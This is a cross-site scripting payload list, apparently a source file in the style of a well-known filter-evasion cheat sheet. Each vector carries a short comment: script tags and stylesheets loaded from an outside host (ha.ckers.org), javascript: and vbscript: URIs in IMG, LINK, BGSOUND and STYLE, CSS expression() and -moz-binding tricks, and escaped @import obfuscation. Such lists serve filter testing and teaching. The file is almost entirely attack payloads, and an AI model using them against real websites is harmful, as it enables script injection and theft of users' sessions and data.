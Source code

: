 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
# IMG LOW src
# Wildy obsolete
<IMG LOWSRC="javascript:alert('XSS')">

# List-style-image
# likely obsolete
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

# VBscript in an image
<IMG SRC='vbscript:msgbox("XSS")'>

# Livescript (older versions of Netscape only)
# Obsolete
# <IMG SRC="livescript:[code]">

# BODY tag
<BODY ONLOAD=alert('XSS')>

# BGSOUND
<BGSOUND SRC="javascript:alert('XSS');"

# & JavaScript includes
# Obsolete
# <BR SIZE="&{alert('XSS')}">

# STYLE sheet
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

# Remote style sheet
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">

# Remote style sheet part 2
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

# Remote style sheet part 3
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

# Remote style sheet part 4
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

# STYLE tags with broken up JavaScript for XSS
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

# STYLE attribute using a comment to break up expression
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"

# IMG STYLE with expression
# N/A

# STYLE tag (Older versions of Netscape only)
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

# STYLE tag using background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

# STYLE tag using background
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

# Anonymous HTML with STYLE attribute
<XSS STYLE="xss:expression(alert('XSS'))">

# Local htc file
<XSS STYLE="behavior: url(xss.htc);">
```